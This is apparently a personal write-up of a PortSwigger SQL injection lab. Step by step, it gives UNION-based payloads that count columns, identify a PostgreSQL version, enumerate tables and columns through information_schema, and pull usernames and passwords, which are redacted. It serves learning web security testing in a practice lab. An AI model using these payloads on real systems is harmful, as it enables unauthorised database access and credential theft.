 Firstly determine the number of columns and their types:

`' UNION SELECT 'a','b'--`

Next try running the version commands and see what they give us:

`' UNION SELECT @@version,NULL--` - ok this failed so we now know the DB is PostgrSQL, but still run the following command anyway:

`' UNION SELECT version(),NULL--`

output: `PostgreSQL 12.14 (Ubuntu 12.14-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Consult the [SQL injection cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to get the command to retrieve PostgreSQL DB metadata:

`SELECT * FROM information_schema.tables` - note this command returns * (all columns) and we have already determined that the `UNION SELECT` will only accept 2 columns of type string. Therefore we need to work out what the columns are by finding the documentation online - [PostgreSQL resource](https://www.delftstack.com/howto/postgres/postgresql-select-all-tables/)

The columns we need to reference are `table_schema` and `table_name`.

`' UNION SELECT table_schema,table_name FROM information_schema.tables--`

output was extensive but I strongly suspect the following table contains the user information we are looking for:

```
public
users_hfexfy
```

We now have a table name and need to determine the columns in the table:

`' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_hfexfy'--`

Great, that returned:

```
username_kvmhbx
password_gcwpdi
```

Now to retrieve all the usernames and passwords:

`' UNION SELECT username_kvmhbx,password_gcwpdi FROM users_hfexfy--`

That worked, list of usernames and passwords:

```
wiener
REDACTED
carlos
REDACTED
administrator
REDACTED
```
